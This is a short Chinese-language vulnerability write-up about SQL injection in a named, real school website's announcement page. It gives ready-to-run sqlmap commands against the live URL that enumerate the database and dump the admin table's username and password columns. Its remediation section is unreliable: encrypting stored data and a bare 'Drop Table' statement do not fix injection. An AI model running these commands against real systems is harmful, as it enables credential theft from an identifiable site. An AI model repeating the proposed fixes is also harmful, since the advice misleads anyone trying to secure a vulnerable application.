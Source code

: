 # 管理系統可被公告id=注入sql
## 詳情:
隨便以一篇文章網址做為範例:http://www.sggs.hc.edu.tw:8080/news2/view.asp?ID=6843  
可以被使用sqlmap這類的工具直接進行注入，進而取得管理員帳號密碼  
示範(以sqlmap指令示範):
```
sqlmap.py -u "http://www.sggs.hc.edu.tw:8080/news2/view.asp?ID=6843" --tables -D maoshe
sqlmap.py -u "http://www.sggs.hc.edu.tw:8080/news2/view.asp?ID=6843" --columns -T admin -D maoshe
sqlmap.py -u "http://www.sggs.hc.edu.tw:8080/news2/view.asp?ID=6843" --dump -C "username,passwd" -T admin -D maoshe
```
接者資料庫內容就被攻擊者一覽無遺了  
![sql](https://raw.githubusercontent.com/William957-web/SGGScyber/main/images/sqlinetion.png)  
這個漏洞事關重大，以下會談即如何防範。  
# 解決方法  
最消極但簡單的方法就是對後端資料加密，但是這樣無法防止資料被查看，可以使網頁保有一定安全性。  
再來，從資料庫本身做防範的話，則是使用sql內建宇法做修正:  
```sql
Drop Table
```
可以明確定義那些是管理員才可檢視的內容  
其餘的可參考網路內容(我不太會sql語法QAQ)
